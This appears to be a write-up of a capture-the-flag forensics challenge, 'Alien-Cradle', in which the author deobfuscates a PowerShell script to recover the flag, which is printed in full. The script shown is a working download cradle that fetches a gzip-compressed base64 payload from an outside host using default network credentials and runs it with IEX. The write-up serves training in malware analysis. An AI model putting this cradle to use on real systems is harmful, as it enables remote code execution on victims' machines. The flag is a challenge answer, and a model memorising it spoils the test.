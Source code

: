 # Alien-Cradle

## FLAG: HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}

## Status: Complete

+ DOCKER: No
+ DOWNLOADABLE: Yyes

Description: In an attempt for the aliens to find more information about the relic, they launched an attack targeting Pandora's close friends and partners that may know any secret information about it. During a recent incident believed to be operated by them, Pandora located a weird PowerShell script from the event logs, otherwise called PowerShell cradle. These scripts are usually used to download and execute the next stage of the attack. However, it seems obfuscated, and Pandora cannot understand it. Can you help her deobfuscate it?

## NOTES

1. Extract the content
   1. > unzip forensics_alien_cradle.zip
      1. FILE: cradle.ps1
      2. Lets examine this file
2. CRADLE.PS1
   1. We know that .ps1 means it is a powershell script so we DON"T want to run this!!
   2. Lets looks at the code
      1. > cat cradle.ps1
         1. RESPOSNE:

            ```ps1
                if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();%
            ```

         2. In here we see a specific line where a variable $f is set
            1. `$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}'`
         3. Removing all the quotes, concatenation symbols, etc. We get
            1. `HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}`
